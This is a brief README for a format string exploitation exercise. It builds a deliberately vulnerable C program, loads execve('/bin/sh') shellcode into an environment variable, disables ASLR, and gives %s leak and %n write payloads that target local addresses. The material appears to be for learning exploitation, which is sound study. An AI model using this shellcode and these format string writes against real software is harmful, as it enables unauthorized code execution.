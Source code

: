 # insecure-format-strings

##Build
```
clang getenvaddr.c -o getenvaddr
clang exploitable.c -Wno-format-security -o exploitable
```

##Add shellcode to environment
```
export SHELLCODE=$(printf "\xeb\x17\x5f\x48\x31\xd2\x48\x31\xc0\x48\x89\xe6\x48\x89\x54\x24\x08\x48\x89\x3c\x24\xb0\x3b\x0f\x05\xe8\xe4\xff\xff\xff/bin/sh")
```

##Turn off ASLR for a specific run
```
setarch `uname -m` -R <command>
```

##Find address
```
setarch `uname -m` -R ./getenvaddr SHELLCODE ./exploitable
setarch `uname -m` -R ./getenvaddr PATH ./exploitable
```

##Print environment variable (find address with the command above)
```
setarch `uname -m` -R ./exploitable ..%13\$s.$(printf "\x21\xe9\xff\xff\xff\x7f")
```

##What is happening here?
```
setarch `uname -m` -R ./exploitable AAAAAAAA..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%nAAAA$(printf "\x40\x10\x60")
```